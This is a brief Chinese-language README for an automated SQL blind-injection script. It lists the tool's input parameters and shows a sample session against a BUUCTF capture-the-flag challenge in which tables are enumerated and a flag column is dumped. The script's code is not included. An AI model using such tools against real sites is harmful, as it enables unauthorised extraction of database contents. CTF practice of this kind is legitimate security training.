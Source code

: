 # SQL盲注脚本

## 0x01 整数型注入脚本

以BUUCTF [[WUSTCTF2020]颜值成绩查询](https://buuoj.cn/challenges#[WUSTCTF2020]%E9%A2%9C%E5%80%BC%E6%88%90%E7%BB%A9%E6%9F%A5%E8%AF%A2)这道题为例，演示脚本如何使用。

### 参数

- url:要进行盲注的url
- require method:请求方式
- right string:返回为true时的特征文本
- right id:结果为true时提交的参数
- error id:结果为false时提交的参数
- function:使用哪种函数

### 使用

```python
>input url(e.g,'get:www.example.com?id=,post:www.example.com'):http://cfe08f29-9167-488c-b6db-3354144ab882.node4.buuoj.cn:81/?stunum=
>input require method(Get/Post):get
>input right string:Hi admin
>input right id(the number while be used when the result is right):1
>input error id:2
>select function(if/elt):if
<result:{'flag': ['flag', 'value'], 'score': ['id', 'name', 'score']}
>input table which you want to dump:flag
>columns:['flag', 'value']
>input columns(split by ','):flag,value
<result:['flagflag{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}']
```



